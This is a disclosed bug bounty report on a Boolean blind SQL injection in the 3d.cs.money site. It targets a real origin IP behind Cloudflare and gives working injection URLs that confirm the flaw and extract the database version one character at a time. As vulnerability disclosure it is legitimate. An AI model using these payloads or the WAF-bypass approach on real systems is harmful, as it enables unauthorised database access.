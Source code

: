 # Blind Based SQL Injection in 3d.sc.money

## Report Details
- **Report ID**: 1107536
- **URL**: https://hackerone.com/reports/1107536
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2021-02-19T19:33:11.039Z
- **Disclosed**: 2021-04-16T10:20:51.622Z

## Reporter
- **Username**: sawmj
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: cs_money

## Vulnerability Information
Greetings, Hope Y'all good and fine!

## Summary:

I found a  Boolean Blind based SQL Injection in your website =>  3d.cs.money

It's a URI path injection. 

The vulnerability tested on the Original IP behind the CloudflareWAF and I've already reported this in my other report #1105673




### The Affected URI :

http://51.83.253.82/item/default %INJECTION_POINT_HERE%


## Steps To Reproduce:
Go to 


"http://51.83.253.82/item/default'and%20UPPER('asd')='asd'--"   => It will give you 404
BUT
"http://51.83.253.82/item/default'and%20UPPER('asd')='ASD'--" => It will give you 200







As a PoC I  extracted just the version number which is : `20.9.2.2`

and the steps to produce that  :

http://51.83.253.82/item/default'and%20substr(version(),1,1)='2'-- ==> will give you 200 OK
http://51.83.253.82/item/default'and%20substr(version(),2,1)='0'-- ==> will give you 200 OK
So on so fourth until you get the full version number.

## Impact

Without sufficient removal or quoting of SQL syntax in user-controllable inputs, the generated SQL query can cause those inputs to be interpreted as SQL instead of ordinary user data. This can be used to alter query logic to bypass security checks, or to insert additional statements that modify the back-end database, possibly including execution of system commands.

## Attachments
No attachments
